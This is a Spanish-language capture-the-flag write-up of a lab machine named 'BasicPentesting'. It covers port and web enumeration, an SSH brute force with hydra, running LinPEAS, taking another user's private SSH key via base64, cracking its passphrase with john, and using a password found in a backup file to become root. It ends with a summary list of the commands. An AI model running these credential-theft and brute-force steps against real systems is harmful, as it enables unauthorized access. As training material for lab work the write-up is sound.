# Write-up BasicPentesting

## Enumeracion

### Escaneo inicial

Empiezo enumerando puertos y servicios con `nmap`:

`nmap -sC -sV -T4 -p 1-15000 IP`

Puertos encontrados:

- 22 - OpenSSH
- 80 - Apache
- 139 - SMB
- 445 - SMB
- 8009 - Apache
- 8080 - Apache

Service info: OS Linux



### Enumeracion web

Lanzo `gobuster` para localizar directorios interesantes:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`

El directorio mas interesante es:

- `/development`



### Revision de `/development`

Dentro encuentro dos archivos:

- `dev.txt`
- `j.txt`

En ellos saco informacion util:

- El usuario `J` tiene una password debil.
- Se menciona Apache Struts `2.5.12` en modo REST.




### Enumeracion SMB

Sigo con `enum4linux` para ver usuarios y recursos compartidos:

`enum4linux -a IP`

Usuarios encontrados:

- `kay`
- `jan`
- `ubuntu`



### Analisis de posibles vectores

La referencia a Struts `2.5.12` apunta a la `CVE-2017-5638`, pero en este caso no me hizo falta explotar esa via porque ya habia suficiente informacion para probar credenciales debiles por SSH.



## Explotacion

### Fuerza bruta por SSH

Con la pista de que un usuario tiene una password debil y teniendo usuarios validos, pruebo fuerza bruta contra `jan`:

`hydra -l jan -P /usr/share/wordlists/rockyou.txt -f ssh://IP`

La password encontrada es:

`armando`



### Acceso por SSH

Me conecto con esas credenciales:

- Usuario: `jan`
- Password: `armando`

`ssh jan@IP`



## Post-explotacion

### Enumeracion como `jan`

Una vez dentro reviso ubicacion y contenido del directorio actual:

`pwd`

`ls -la`

Para acelerar la enumeracion decido usar `LinPEAS`. Lo copio a la maquina victima por `scp` hacia `/dev/shm`:

`scp /usr/share/peass/linpeas/linpeas.sh jan@IP:/dev/shm`



Despues, ya dentro de la maquina comprometida:

`cd /dev/shm`

`chmod +x linpeas.sh`

`./linpeas.sh | tee linlog.txt`



### Hallazgo clave

El resultado de `linpeas` muestra una ruta interesante:

`/home/kay/.ssh/id_rsa`

Eso me da acceso a una clave privada potencialmente util. Copio su contenido y lo guardo en mi maquina atacante en un archivo llamado `idrsa`.

Importante: hay que copiar desde `BEGIN RSA` hasta `END RSA`.

Luego le doy permisos correctos:

`chmod 600 idrsa`



### Nota opcional para evitar corrupcion de la clave

Si al copiar y pegar la clave se corrompe, una forma mas fiable es codificarla en base64 desde la maquina victima:

`base64 -w 0 /home/kay/.ssh/id_rsa`

Despues, en la maquina atacante:

`echo 'AQUI_TODO_EL_CODIGO_BASE64' | base64 -d > keyclean`

`chmod 600 keyclean`



## Escalado de privilegios

### Crackeo de la passphrase de la clave SSH

Primero convierto la clave a un formato que entienda `john`:

`python3 /usr/bin/ssh2john idrsa > kaypass.txt`



Despues lanzo:

`john --wordlist=/usr/share/wordlists/rockyou.txt kaypass.txt`

La password obtenida para la clave de `kay` es:

`beeswax`



Nota: si `john` indica que ya habia cargado el hash y no rompe nada, se puede consultar con:

`john --show kaypass.txt`

### Acceso como `kay`

Me conecto usando la clave privada:

`ssh -i keyclean kay@IP`

Cuando pide la passphrase introduzco:

`beeswax`

Ya dentro, hago un `ls` y encuentro `pass.bak`.

Lo leo:

`cat pass.bak`

Y saco esta password:

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

Con esa credencial paso a `root`:

`sudo su`

Introduzco la password y ya tengo acceso total.



## Resultado

El compromiso sale por una password debil en SSH para `jan`, despues una mala proteccion de la clave privada de `kay`, y finalmente una credencial reutilizada que permite hacer `sudo su` y acabar como `root`.

## Resumen de comandos hasta root

- `nmap -sC -sV -T4 -p 1-15000 IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`
- `enum4linux -a IP`
- `hydra -l jan -P /usr/share/wordlists/rockyou.txt -f ssh://IP`
- `ssh jan@IP`
- `pwd`
- `ls -la`
- `scp /usr/share/peass/linpeas/linpeas.sh jan@IP:/dev/shm`
- `cd /dev/shm`
- `chmod +x linpeas.sh`
- `./linpeas.sh | tee linlog.txt`
- `chmod 600 idrsa`
- `base64 -w 0 /home/kay/.ssh/id_rsa`
- `echo 'AQUI_TODO_EL_CODIGO_BASE64' | base64 -d > keyclean`
- `chmod 600 keyclean`
- `python3 /usr/bin/ssh2john idrsa > kaypass.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt kaypass.txt`
- `ssh -i keyclean kay@IP`
- `cat pass.bak`
- `sudo su`
